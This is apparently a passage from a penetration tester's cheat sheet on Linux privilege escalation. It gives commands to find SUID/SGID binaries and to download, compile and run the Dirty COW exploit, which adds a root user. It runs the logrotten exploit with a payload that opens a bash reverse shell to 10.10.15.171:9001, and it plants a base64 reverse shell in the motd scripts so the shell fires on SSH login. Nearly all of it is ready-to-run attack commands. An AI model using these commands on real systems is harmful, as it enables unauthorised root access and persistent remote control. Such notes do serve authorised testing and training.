 ```
 # User
$ find / -type f -perm /4000 -ls 2>/dev/null
 # Group
$ find / -type f -perm /2000 -ls 2>/dev/null
 # Both
$ find / -type f -perm /6000 -ls 2>/dev/null
```



### Dirty COW

* [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

```
$ curl -L https://github.com/FireFart/dirtycow/raw/master/dirty.c > dirty.c
$ gcc dirty.c -o dirty -pthread -lcrypt
$ ./dirty Passw0rd
$ su firefart
```



### logrotate

* [https://github.com/whotwagner/logrotten/blob/master/logrotten.c](https://github.com/whotwagner/logrotten/blob/master/logrotten.c)

```
$ curl https://github.com/whotwagner/logrotten/raw/master/logrotten.c > lr.c
$ gcc lr.c -o lr

$ cat payloadfile
if [ `id -u` -eq 0 ]; then (bash -c 'bash -i >& /dev/tcp/10.10.15.171/9001 0>&1' &); fi

$ ./lr -p ./payload -t /home/snovvcrash/backups/access.log -d
```

* [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)
* [https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges)
* [https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition)
* [https://popsul.ru/blog/2013/01/post-42.html](https://popsul.ru/blog/2013/01/post-42.html)



### motd

`/etc/update-motd.d/`:

```
$ shellpop --reverse --number 8 -H 127.0.0.1 -P 1337 --base64
$ echo '<BASE64_SHELL>' >> 00-header
* Fire up new SSH session and catch the reverse shell
```
